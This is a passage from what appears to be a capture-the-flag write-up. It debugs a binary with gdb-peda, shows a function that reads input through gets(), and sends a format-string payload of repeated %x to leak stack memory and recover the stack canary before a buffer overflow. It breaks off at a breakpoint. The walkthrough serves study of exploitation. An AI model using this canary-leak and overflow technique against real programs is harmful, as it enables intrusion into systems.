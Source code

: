 ```
   0x08048562 <+0>: push   ebp
   0x08048563 <+1>: mov    ebp,esp
   0x08048565 <+3>: sub    esp,0x18
   0x08048568 <+6>: mov    eax,gs:0x14
   0x0804856e <+12>:  mov    DWORD PTR [ebp-0xc],eax
   0x08048571 <+15>:  xor    eax,eax
   0x08048573 <+17>:  sub    esp,0xc
   0x08048576 <+20>:  lea    eax,[ebp-0x16]
   0x08048579 <+23>:  push   eax
   0x0804857a <+24>:  call   0x80483b0 <gets@plt>
   0x0804857f <+29>:  add    esp,0x10
   0x08048582 <+32>:  nop
   0x08048583 <+33>:  mov    eax,DWORD PTR [ebp-0xc]
   0x08048586 <+36>:  xor    eax,DWORD PTR gs:0x14
   0x0804858d <+43>:  je     0x8048594 <pivot+50>
   0x0804858f <+45>:  call   0x80483d0 <__stack_chk_fail@plt>
   0x08048594 <+50>:  leave  
   0x08048595 <+51>:  ret    
End of assembler dump.
gdb-peda$ b *pivot+29
Breakpoint 2 at 0x804857f
gdb-peda$ r
Starting program: /Hackery/escape/def_ovr/d0/d0 
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
1e8.f7faf5a0.f7fefef9.25000070.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.ffff000a.1.c2.f7e8d54b.ffffcfbe.ffffd0bc.e0.0.f7ffd000.f7ffd918.ffffcfc0.80482b3.0.ffffd054.f7faf000.3d57.ffffffff.2f.f7e09dc8.f7fd5858.8000.f7faf000.f7fad244.f7e150ec.1.7.f7e2ba50.6032d100.
```

So we can see here that the canary is 0x6032d100. Now let's go to the second Breakpoint so we can see the offsets between the start of our buffer overflow, and the stack canary and the return address.

```
Breakpoint 1, 0x0804854b in revelation ()
gdb-peda$ c
Continuing.
escape
```

And then breakpoint 2
